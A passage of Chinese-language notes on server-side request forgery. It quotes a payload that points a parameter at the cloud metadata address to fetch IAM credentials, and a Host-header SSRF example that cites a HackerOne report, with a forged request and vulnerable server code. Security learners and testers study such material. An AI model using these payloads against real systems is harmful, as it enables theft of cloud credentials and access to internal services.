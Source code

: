   通过检查 `attacker.com` 的访问日志，若发现来自 AppStore 服务器的请求，则确认漏洞存在。

- 进一步利用：

  ```
  icon_url=http://169.254.169.254/latest/meta-data/iam/security-credentials/  # 获取云服务器临时凭证
  ```

### 3. HOST SSRF

[IBM | Report #2696271 - SSRF via host header let access localhost via https://go.dialexa.com | HackerOne](https://hackerone.com/reports/2696271)

#### 一、为什么HOST修改不会影响正常访问

✅ 实际请求是由目标服务器发出的，它会根据 URL 的主机名去解析 IP 并建立连接。

请求流程通常是这样的：

```
目标服务发出 HTTP 请求 -> 解析 URL 中的主机名 -> 建立 TCP 连接 -> 发送 HTTP 请求（包含 Host）
```

举例：

```
http复制编辑POST https://eva2.csdn.net/v3/xxx HTTP/1.1
Host: 127.0.0.1
```

此时：

- **TCP 连接建立在 `eva2.csdn.net` 这个域名解析出来的 IP 上**
- **HTTP 请求头里的 Host 不影响实际连接目标**

#### 二、案例

**攻击姿势**：
篡改 `Host` 标头，诱导服务器向该地址发起内部请求。
**示例请求**：

```
GET /api/health HTTP/1.1
Host: 127.0.0.1:8080  # 篡改后的目标
```

**攻击逻辑**：

- 服务器代码使用 `Host` 标头动态生成内部请求：

  ```
  internal_url = f"http://{request.headers['Host']}/admin"
  requests.get(internal_url)  # 实际访问 http://127.0.0.1:8080/admin
  ```

- 请求仍发送到 `victim.com` 的公网 IP，但服务器自身会代理访问 `127.0.0.1`。

**生效条件**：

- 应用程序逻辑依赖 `Host` 标头构造请求地址。
- 服务器可访问本地或内网服务（如本地数据库、管理接口）。
